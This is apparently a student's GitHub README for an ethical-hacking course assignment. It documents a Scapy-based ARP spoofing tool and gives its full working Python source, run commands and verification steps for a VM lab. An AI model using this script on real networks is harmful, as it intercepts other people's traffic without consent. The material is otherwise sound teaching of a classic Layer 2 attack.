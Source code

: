 # 🛡️ ARP Spoofer using Scapy | CSCI369 Ethical Hacking Assignment (Q1)

This repository contains a Python-based ARP spoofing tool built as part of the **CSCI369 Ethical Hacking** module (SIM-UOW, S3 2025). The assignment focused on demonstrating a practical **man-in-the-middle (MITM)** attack using **Scapy** in a virtual lab setup involving Kali Linux and Metasploitable2 VMs.

---

## 📘 Assignment Objective

> "Write a Python program that performs an ARP spoofing attack with a single command:  
> `sudo python3 arpspoof.py <Victim_IP> <Router_IP>`  
> The tool must use the `scapy` package (no subprocess or shell commands) and demonstrate a successful ARP spoof against a Metasploitable2 VM when executed from a Kali VM."

---

## 💻 What This Script Does

This Python script performs an ARP spoofing attack using the Scapy library. When run from Kali Linux, it continuously sends fake ARP replies to both a victim machine (e.g., Metasploitable2) and the default gateway (router). The attacker (Kali) pretends to be the router to the victim, and vice versa. This causes both parties to unknowingly send their traffic to the attacker — enabling man-in-the-middle (MITM) attacks. The script takes two IP arguments (victim and router), resolves their MAC addresses, and uses crafted ARP replies to poison their ARP tables. When the user presses CTRL+C, the program automatically sends legitimate ARP replies to restore the original network state. This technique demonstrates a fundamental Layer 2 attack in ethical hacking scenarios.

---

## 🧪 Lab Setup

| VM              | Role      | Example IP   |
|-----------------|-----------|--------------|
| Kali Linux      | Attacker  | 10.0.2.15    |
| Metasploitable2 | Victim    | 10.0.2.4     |
| Router/Gateway  | Router IP | 10.0.2.1     |

---

## 🔧 How to Run

### 💡 Prerequisites
- VirtualBox with **Kali Linux** and **Metasploitable2** VMs
- Both VMs on the **same network** (e.g., NAT or Host-Only)
- Install Scapy on Kali:
  ```bash
  sudo apt update
  sudo apt install python3-scapy
  ```

### ▶️ Execution Command

```bash
sudo python3 arpspoof.py <Victim_IP> <Router_IP>
```

Example:
```bash
sudo python3 arpspoof.py 10.0.2.4 10.0.2.1
```

---

## 🔍 How to Verify the ARP Spoofing Attack

1. **Start the script from Kali**:
   ```bash
   sudo python3 arpspoof.py 10.0.2.4 10.0.2.1
   ```

2. **Switch to Meta2** and run:
   ```bash
   arp -a
   ```

3. Check the entry for the **router IP (e.g. 10.0.2.1)** — it should now point to the **IP address of Kali**, meaning:
   - Meta2 believes the router's IP is located at Kali's MAC

4. To confirm this from Kali, run:
   ```bash
   ifconfig
   ```
   - Get Kali’s IP (e.g. `10.0.2.15`)
   - If Meta2’s ARP table shows `10.0.2.1` → mapped to Kali’s MAC, the spoof worked ✅

5. Press `CTRL+C` in Kali to stop the script — it restores the network.

6. Run `arp -a` again in Meta2 — now the router IP should point back to its original MAC.

---

## 📌 How Did I Find the IPs?

### Victim IP (Meta2):
```bash
ifconfig
```

### Router IP (Default Gateway):
```bash
netstat -rn
```

Look for:
```
Destination   Gateway
0.0.0.0       10.0.2.1
```

---

## 🧠 Optional Learning Tools

- Ping test:
  ```bash
  ping 10.0.2.1  # From Meta2
  ping 10.0.2.4  # From Kali
  ```

---

## 🧾 Reference: Python Source Code (`arpspoof.py`)

```
#!/usr/bin/env python3
# CSCI369 Ethical Hacking Assignment - Q1
# Sheethal Santhanam 2025

from scapy.all import ARP, send, srp, Ether
import sys
import time

# Check for valid input: script requires victim and router IPs
if len(sys.argv) != 3:
    print("Usage: sudo python3 arpspoof.py <Victim_IP> <Router_IP>")
    sys.exit(1)

# Assign victim and router IPs from command line args
victim_ip = sys.argv[1]
router_ip = sys.argv[2]

# Function to resolve MAC address of an IP using ARP request
def get_mac_address(ip):
    arp_req = ARP(pdst=ip)
    broadcast = Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_broadcast = broadcast / arp_req
    response = srp(arp_broadcast, timeout=2, verbose=False)[0]
    return response[0][1].hwsrc if response else None

# Function to send a spoofed ARP reply to target_ip, pretending to be spoof_ip
def send_spoof_packet(target_ip, spoof_ip):
    target_mac = get_mac_address(target_ip)
    if target_mac:
        spoofed_arp = ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
        send(spoofed_arp, verbose=False)
        print(f"[DEBUG] Sent spoofed packet to {target_ip} claiming to be {spoof_ip}")

# Function to restore the real MAC bindings after CTRL+C
def restore_arp_table(destination_ip, source_ip):
    dest_mac = get_mac_address(destination_ip)
    source_mac = get_mac_address(source_ip)
    correct_arp = ARP(op=2, pdst=destination_ip, hwdst=dest_mac, psrc=source_ip, hwsrc=source_mac)
    send(correct_arp, count=4, verbose=False)
    print(f"[INFO] Restored ARP for {destination_ip} → {source_ip}")

# Main loop for attack
try:
    print("[+] ARP Spoofing started. Press CTRL+C to stop and restore network.")
    while True:
        send_spoof_packet(victim_ip, router_ip)  # Tell victim we are the router
        send_spoof_packet(router_ip, victim_ip)  # Tell router we are the victim
        time.sleep(2)

# Graceful exit on CTRL+C — restore ARP tables
except KeyboardInterrupt:
    print("\n[!] CTRL+C detected. Restoring network...")
    restore_arp_table(victim_ip, router_ip)
    restore_arp_table(router_ip, victim_ip)
    print("[+] ARP tables restored. Exiting.")

```

---

**Sheethal Santhanam**  
📍 Singapore | SIM-UOW  
🎓 Bachelor of Computer Science  
🛡️ Double Major: Digital Systems Security & Cybersecurity  
📫 [LinkedIn](#) • [Portfolio](#)

---

> 🛑 **Disclaimer**: This project is for educational use only.  
> Never perform ARP spoofing outside a controlled lab environment.
